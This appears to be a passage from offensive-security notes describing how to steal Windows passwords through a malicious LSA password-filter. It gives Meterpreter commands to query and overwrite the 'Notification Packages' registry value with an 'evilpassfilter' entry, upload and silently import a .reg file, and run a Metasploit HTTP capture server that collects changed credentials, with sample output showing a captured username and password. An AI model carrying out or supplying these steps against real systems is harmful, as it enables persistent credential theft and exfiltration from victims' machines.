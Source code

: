 # Metasploit

## Modify The Registry Entry

Query the notification packages list.

```
meterpreter > reg queryval -k HKLM\\SYSTEM\\CurrentControlSet\\Control\\Lsa -v "Notification Packages"
Key: HKLM\System\CurrentcontrolSet\Control\Lsa
Name: Notification Packages
Type:
Data: sceclirassfm
```

 What you can't see here since Metasploit isn't showing the line breaks is that there are two there by default.

```
scecli
rassfm
```

```
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa]
"Notification Packages"=hex(7):73,00,63,00,65,00,63,00,69,00,72,00,6e,00,\
  00,00,72,00,61,00,73,00,73,00,66,00,6d,00,72,00,6e,00,00,00,65,00,76,00,69,\
  00,6c,00,70,00,61,00,73,00,73,00,66,00,69,00,6c,00,74,00,65,00,72,00,00,00,\
  00,00
```

Upload the registry file then import it.

```
meterpreter > upload grab_credentials.reg .
[*] uploading  : grab_credentials.reg -> .
[*] uploaded   : grab_credentials.reg -> .\grab_credentials.reg
meterpreter > execute -Hf regedit.exe -a "/s grab_credentials.reg"
Process 2628 created.
```

```
meterpreter > reg queryval -k HKLM\\SYSTEM\\CurrentControlSet\\Control\\Lsa -v "Notification Packages"
Key: HKLM\System\CurrentcontrolSet\Control\Lsa
Name: Notification Packages
Type:
Data: sceclirnrassfmrnevilpassfilter
```

## Retrieve Credentials

### Web Server

```
msf > use auxiliary/server/capture/http_basic

msf auxiliary(http_basic) > set URIPATH /
URIPATH => /
msf auxiliary(http_basic) > run -j
[*] Auxiliary module execution completed
[*] Listening on 0.0.0.0:80...
[*] Using URL: http://0.0.0.0:80/
[*]  Local IP: http://192.168.92.106:80/
[*] Server started.
msf auxiliary(http_basic) > 
```

 Then we wait for a password to be changed.

```
msf auxiliary(http_basic) > 
[*] 192.168.92.106   http_basic - Sending 401 to client
[+] 192.168.92.106 - Credential collected: "jack:ASDqwe123" => /
```

### SMB Share

TODO: Do a step by step (refer to the backlink to file transfer)

---
## References

### Backlinks

- [[Password Change Notification|Malware Development: Password Change Notification]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x05 - File Transfer and Data Exfiltration/Windows/Network Ports/SMB|File Transfer and Data Exfiltration: Windows SMB]]